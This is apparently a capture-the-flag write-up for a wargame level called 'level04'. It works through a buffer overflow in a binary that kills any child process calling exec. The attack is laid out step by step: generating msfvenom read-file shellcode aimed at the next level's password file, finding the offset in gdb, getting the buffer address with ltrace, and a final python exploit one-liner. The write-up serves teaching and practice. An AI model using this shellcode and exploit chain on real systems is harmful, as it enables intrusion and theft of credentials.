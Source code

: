 # Level04

## Limitations

```c
    do {
      ...
      last_instr = ptrace(PTRACE_PEEKUSER,pid,44,0);
    } while (last_instr != 0xb);
    puts("no exec() for you");
    kill(pid,9);
```

We can see that the program forks and traces child's functions calls to kill the said child if it calls exec.

## Shellcode

We need a shellcode that doesn't call exec. We can generate one that only reads in "/home/users/level05/.pass" with msfvenom.

```shell
$ msfvenom -p linux/x86/read_file PATH=/home/users/level05/.pass -b "\x00" -f c -v shellcode
"\xbb\x2c\xce\x5a\x7d\xda\xd1\xd9\x74\x24\xf4\x5a\x29\xc9\xb1\x16\x31\x5a\x15\x83\xea\xfc\x03\x5a\x11\xe2\xd9\x25\x6c\xc5\x24\xba\x91\x35\x7d\x8b\x58\xf8\x01\x62\x99\xbb\x02\x75\x1e\xbc\x8d\x92\x97\x45\x37\x5c\xb8\xb5\x47\x90\x38\x3c\x85\x92\x3d\x3f\x09\xe3\x86\x3e\x09\xe3\xf8\x8d\x89\x5b\xf9\x0d\x89\x9b\x41\x0d\x89\x9b\xb5\xc3\x09\x73\x70\x24\xf6\x7b\x54\xb3\x67\xe9\xce\x6c\x02\x82\x75\x01\x9f\x4b\x1a\x80\x29\xf1\x8e\x7a\xe0\xd6\x60\x0b\x6b\x5a\x0e\xeb"
```

## Shellcode injection

We can inject shellcode in the buffer

## Buffer overflow offest

We can find the buffer overflow offset with a mask and gdb.

```shell
$ gdb ./level04
(gdb) set follow-fork-mode child
(gdb) r
Starting program: /home/users/level04/level04 
[New process 2608]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 2608]
0x41326641 in ?? ()
```

That gives us an offset of 156.

## Shellcode address

To get the shellcode address we just need to run the program with ltrace and get the first arg of the call to `gets`.

```shell
env -i ltrace -f ./level04
...
[pid 2627] gets(-8736, 0, 0, 0, 2944
...
```

## Exploit

```shell
$ python -c 'print "\xbb\x2c\xce\x5a\x7d\xda\xd1\xd9\x74\x24\xf4\x5a\x29\xc9\xb1\x16\x31\x5a\x15\x83\xea\xfc\x03\x5a\x11\xe2\xd9\x25\x6c\xc5\x24\xba\x91\x35\x7d\x8b\x58\xf8\x01\x62\x99\xbb\x02\x75\x1e\xbc\x8d\x92\x97\x45\x37\x5c\xb8\xb5\x47\x90\x38\x3c\x85\x92\x3d\x3f\x09\xe3\x86\x3e\x09\xe3\xf8\x8d\x89\x5b\xf9\x0d\x89\x9b\x41\x0d\x89\x9b\xb5\xc3\x09\x73\x70\x24\xf6\x7b\x54\xb3\x67\xe9\xce\x6c\x02\x82\x75\x01\x9f\x4b\x1a\x80\x29\xf1\x8e\x7a\xe0\xd6\x60\x0b\x6b\x5a\x0e\xeb" + "a" * 42 + "\xe0\xdd\xff\xff"' | env -i ./level04
```
